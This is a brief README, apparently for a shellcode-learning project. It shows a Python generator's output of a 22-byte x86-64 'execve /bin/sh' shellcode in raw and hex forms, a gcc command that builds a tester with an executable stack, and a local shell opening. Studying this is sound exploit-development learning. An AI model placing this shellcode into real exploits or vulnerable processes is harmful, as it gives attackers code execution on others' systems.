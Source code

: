 # Usage

## The shellcode python generator

It uses the simplest "execve /bin/sh" shellcode by default

```bash
python3 generate_shellcode.py
Shellcode: b'1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05'
Shellcode HEX: 31f65648bb2f62696e2f2f736853545ff7eeb03b0f05
Raw Shellcode: \x31\xf6\x56\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xf7\xee\xb0\x3b\x0f\x05
Shellcode Length: 22 bytes
```

## The C payload tester

### Compilation
`gcc -o test_payload test_payload.c -z execstack`

### Run
```bash
./test_payload               

$ id
uid=1000(xtk)...
```
